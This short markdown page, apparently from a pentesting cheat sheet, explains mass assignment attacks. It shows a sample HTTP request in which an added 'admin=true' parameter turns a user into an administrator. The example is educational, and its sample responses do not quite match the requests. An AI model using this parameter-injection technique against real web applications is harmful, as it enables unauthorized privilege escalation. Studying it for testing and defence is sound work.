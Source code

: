 # Mass Assignment Attack

## Introduction
Occurs when an app allows a user to manually add parameters in an HTTP Request & the app process value of these parameters when processing the HTTP Request & it affects the response that is returned to the user. Usually occurs in Ruby on Rails / NodeJS

## How to exploit
- Normal request
```
POST /editdata HTTP/1.1
Host: target.com
...

username=daffa
```
The response
```
HTTP/1.1 200 OK
...

{"status":"success","username":"daffainfo","isAdmin":"false"}
```

- Modified Request 
```
POST /editdata HTTP/1.1
Host: target.com
...

username=daffa&admin=true
```

```
HTTP/1.1 200 OK
...

{"status":"success","username":"daffainfo","isAdmin":"true"}
```

## References
* [Pentester Academy](https://blog.pentesteracademy.com/hunting-for-mass-assignment-56ed73095eda)